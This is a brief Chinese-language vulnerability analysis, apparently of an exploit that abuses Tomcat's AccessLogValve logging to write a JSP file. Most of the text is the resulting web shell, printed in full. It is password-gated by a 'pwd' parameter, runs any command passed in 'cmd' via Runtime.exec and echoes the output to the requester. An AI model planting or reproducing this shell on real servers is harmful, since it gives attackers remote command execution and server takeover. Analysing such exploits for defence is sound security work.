

# 漏洞分析
即通过AccessLogValve输出的日志中可以通过形如%{param}i等形式直接引用HTTP请求和响应中的内容;结合poc.py中headers变量内容：最终可以得到AccessLogValve输出的日志实际内容如下（已格式化）：
<%
if("j".equals(request.getParameter("pwd"))){

         java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

 int a = -1;

 byte[] b = new byte[2048];

 while((a=in.read(b))!=-1){

                   out.println(new String(b));

         }

}
%>//